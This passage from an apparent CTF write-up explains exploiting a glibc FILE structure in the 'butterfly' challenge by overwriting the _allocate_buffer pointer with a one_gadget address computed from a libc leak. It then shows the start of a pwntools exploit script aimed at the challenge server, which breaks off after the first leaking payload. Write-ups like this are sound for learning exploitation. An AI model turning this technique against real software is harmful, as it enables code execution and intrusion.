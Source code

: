 For this one we have to keep the difference between `_IO_buf_end` and `_IO_buf_base` small enough that multiplying it by 2 and adding 100 doesn't cause an overflow resulting in a lower number. Finally, the function call:
```c
new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

`fp->_s._allocate_buffer` is at `fp+0xe0` so that's where we need to put our address to jump to. Using the leak from our first input we can get our hands on a libc address and use its offset to calculate the address of a `one_gadget`, which we can put into `fp->_s._allocate_buffer` to jump to it.

Here's my final exploit:
```python
#!/usr/bin/env python3

# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./butterfly
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./butterfly')
libc = ELF('./libc.so.6')
host = 'pwn.darkarmy.xyz'
port = 32770

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

def local(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        p = process([exe.path] + argv, *a, **kw)
        input() # give me time to attach a debugger
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(host, port)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

note_offset = 0x202050

io = start()

io.recv() # "I need your name: "

pl = b'A'*(0x50-1) # fill the buffer up to a libc address (-1 for newline char)
io.sendline(pl)

```